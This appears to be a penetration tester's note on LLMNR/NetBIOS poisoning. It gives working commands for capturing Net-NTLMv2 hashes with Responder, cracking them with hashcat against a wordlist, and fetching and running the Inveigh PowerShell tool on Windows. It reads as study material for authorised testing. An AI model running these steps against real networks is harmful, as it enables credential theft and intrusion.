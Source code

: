 **LLMNR/NetBIOS lookups** are used by Windows when DNS fails to resolve a hostname. Because these requests are broadcast over the local network, a malicious host can intercept and respond to them. By running **Responder**, an attacker can capture Net-NTLMv2 password hashes through a Man-in-the-Middle (MitM) attack on the challenge/response messages that are part of the NTLM authentication protocol.
### Linux

```bash
responder -I eth0
```

User goes to a share that does not exist:

![[Pasted image 20240810230946.png]]

NTLMv2 password is captured:

![[Pasted image 20240815233653.png]]

To crack

```bash
hashcat -m 5600 ntlmv2.hashcat /opt/rockyou.txt
```

Common flags to use:

- -A: Allowing us to see NBT-NS, BROWSER, and LLMNR requests in the environment without poisoning any responses.
- -f: Will attempt to fingerprint the remote host operating system and version.
- -w: Utilises the built-in WPAD proxy server. This can be highly effective, especially in large organisations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has `auto detect` enabled
- -v: Increased verbosity
### Windows

Powershell version is no longer updated

```bash
wget https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/refs/heads/master/Inveigh.ps1 -outfile Inveigh.ps1
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

And `exe` version exists, however this requires elevated permissions to use:

https://github.com/Kevin-Robertson/Inveigh

